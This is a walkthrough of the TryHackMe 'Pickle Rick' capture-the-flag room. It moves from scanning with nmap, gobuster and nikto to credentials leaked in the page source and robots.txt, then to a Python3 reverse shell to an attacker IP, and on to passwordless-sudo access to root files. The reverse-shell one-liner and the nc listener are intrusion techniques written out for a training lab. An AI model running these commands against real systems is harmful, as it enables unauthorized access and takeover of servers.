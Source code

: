 
![intro](https://github.com/user-attachments/assets/11ecb6f3-2862-462f-8227-3c6dd2b1a19b)

This is a detailed walkthrough of the tryhackme CTF titled Pickle Rick: This Rick and Morty-themed CTF revolves around exploiting a vulnerable web server to find three ingredients to transform Rick from a pickle back to human state. This walkthrough is intended to be used as a guide so no actaul flags or "answers" will be revealed. 

## Scanning

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals two open ports:

![nmap_result](https://github.com/user-attachments/assets/9cffca0f-cd9d-44e0-99eb-7bd522615f25)

# Enumeration

### **Analysis Port 80/TCP**

Let's check out the websever on port 80/TCP.

I checked the source code and revealed a username in the html comments:

![pagesource](https://github.com/user-attachments/assets/23742b21-e765-47e8-8788-cc3d68224727)


Now let's run a directory scan on the target using gobuster:

```bash
gobuster dir -u $ip -w=/usr/share/wordlists/dirb/common.txt -x txt,php,html -o buster.txt
```
Command break down:

dir: Specifies that we want to perform directory brute-forcing.

-u $ip: The -u flag followed by the target IP address or hostname indicates the URL to scan.

-w=/usr/share/wordlists/dirb/common.txt: This option specifies the wordlist to use for directory brute-forcing. In this case, it uses the common wordlist located at /usr/share/wordlists/dirb/common.txt.

-x txt,php,html: The -x flag specifies file extensions to search for. Here, we’re looking for files with extensions .txt, .php, and .html.

-o buster.txt: The -o flag specifies the output file where the results will be saved. In this case, it saves the output to a file named “buster.txt.”

We found two interesting directories:

![buster](https://github.com/user-attachments/assets/005f3530-538e-4fb7-a809-9c0379e1e99b)

```bash
/login.php
/robots.txt
```

Robots.txt can often reveal vulnerabilities in a web server, or inadvertently leaked information. 
Let's also run a nikto scan on the target IP:

```bash
nikto -h $ip | tee nikto.txt
```
Command break down:
-h $ip: The -h option specifies the target host

| tee nikto.txt: The tee command allows you to save the output to a file (nikto.txt) 

![nikto](https://github.com/user-attachments/assets/2be2bf43-af1f-4a72-929a-76fdcbce784f)

This again reveals the /login.php directory among other information.

Browsing to /login.php , we are redirected to a log in page :

![login](https://github.com/user-attachments/assets/8ffd221c-cca9-4f8e-bee7-36c19203e518)

Navigating to robots.txt reveals a strange word that looks like it might be a login password.

Let's try logging in with the username we found earlier from the sourcecode and the potential password from robots.txt.

# Gaining privileges

Success! We are now logged in!

We are presented with a command panel. 

Running the command id reveals that we are www-data:

```bash
id
```
![id](https://github.com/user-attachments/assets/3366d92d-5891-44e8-8dce-2f462c7998d9)

Now, let's run ls -la to see what files are available: 

```bash
ls -la
```
![ls -la](https://github.com/user-attachments/assets/ec5f253e-5e29-4132-afb8-42615a23012e)

Let's run the cat command on clue.txt:

![cat](https://github.com/user-attachments/assets/5a99da24-b9ab-430f-8347-eaf843b8b82e)

The cat command is disabled. Let's try some other commands with similiar functionality to cat, like less. 
less works and the contents display: Look around the file system for the other ingredient.
Ok, let's run less on Sup3rS3cretPickl3Ingred.txt.
And this returns our first secret ingredient!

# Expolitation

Let's try to get more access to this web server with a reverse shell. 
As a test, let's run a simple python command:

```bash
python3 -c 'print("test")'
```
The command works and displayed test. This let's us know that we can run python3 commands. So, let's try running a reverse shell in python3. 
I often like to use the site "https://www.revshells.com/" because it has a large colletion of reverse shell, with a simple interface to input 
your IP and desired port number, as well as showing the nc listener.

Scroll down on through the list of reverse shells on the bottom left until you get to Python3 shortest. In our situation with the command panel,
I find that shorter shells tend to have a high success rate.

Shell for input on command panel:

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.24.123",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

nc listener for output on our terminal:
```bash
nc -lvnp 4444
```

Alright! We have a reverse shell as www-data! Let's run the command env to get a summary of environmental varialbles:

![env](https://github.com/user-attachments/assets/fc127f2a-363d-4178-9f22-c83e649baa39)

Ok, the first thing I like to do is run a few commands to upgrade our shell's functionality and stability:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
ctrl -z
stty raw -echo; fg
stty rows 38 columns 116
```

Now that we have upgraded the shell, let's check for privileges of www-data:

Command:
```bash
sudo -l
```
![sudo -l](https://github.com/user-attachments/assets/19ce7691-b99e-4672-b0db-c1f42841d650)

This is great news as it indicates we can execute any command with no password!
Let's explore the file system and get the other flags. First, let's check the home directory:
Command:
```bash
ls /home
```
We see two directories in home: rick and ubuntu. Now, we'll navigate to /home/rick.
Command:
```bash
cd /home/rick
ls -lah
```

Great! Let's use less to see the contents of the 2nd ingredient, don't forget to use '' due to the space.


![2nd](https://github.com/user-attachments/assets/da82fe39-0967-4c92-a433-042f5c4d7539)

We now have the second ingredient! 
Let's check the root directory for the 3rd one. A couple things to note. We will need to use the sudo command with no pasword to display the 3rd flag. I also noticed that we actually can use the cat command in our shell.
```bash
sudo ls /root
sudo cat /root/3rd.txt
```

And we now have the 3rd flag! I hope you enjoyed this CTF and it was a good learning experience. Remember that there are different approaches that you can take in the room to get the same results, so try some different approaches and techniques. 


